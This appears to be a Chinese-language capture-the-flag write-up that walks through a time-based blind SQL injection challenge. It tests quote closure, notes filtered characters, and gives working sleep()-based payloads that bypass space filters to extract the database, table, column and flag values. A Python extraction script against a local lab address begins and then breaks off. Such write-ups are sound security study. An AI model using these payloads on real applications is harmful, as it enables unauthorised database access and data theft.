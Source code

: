 测闭合

```sql
1‘
# 没回显
1“
# 有回显
1’#
# 有回显
# 综上，单引号闭合
```

测过滤

```sql
空格、/、ascii()、substr()、=、
```

跟上一题差不多，就是时间盲注

爆当前库

```sql
Alice'and(if((ord(mid((select(group_concat(database()))),1,1))>1),sleep(3),1))#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732596075629-4f608b1d-9f51-41ce-9811-c46daf621172.png)

爆表

```sql
Alice'and(if((((ord(mid((select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database()))),1,1))))>1),sleep(4),1))#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732596773301-ba9c9a6f-6b56-49ba-804c-5fb723ec3a4d.png)

爆字段

```sql
Alice'and(if((((ord(mid((select(group_concat(column_name))from(information_schema.columns)where((table_name)like('secrets'))),1,1))))>1),sleep(2),1))#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732596953917-8ec82a76-d24c-4420-9030-279f17a01bc2.png)

```sql
Alice'and(if(((((ord(mid((select(group_concat(secret_value))from(secrets)where((secret_value)like('flag%'))),1,1))))>1)),sleep(5),1))#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732597170046-16860943-2b24-4d74-9dba-6922586fccda.png)

结束，代码如下



```sql
import time

import requests

url = "http://127.0.0.1:50046/?"
temp = {"student_name": ""}
result = ""
for i in range(1, 1000):
    time.sleep(0.02)
    low = 32
    high = 128
    mid = (low + high) // 2
    while low < high:
        # 当前所在库
```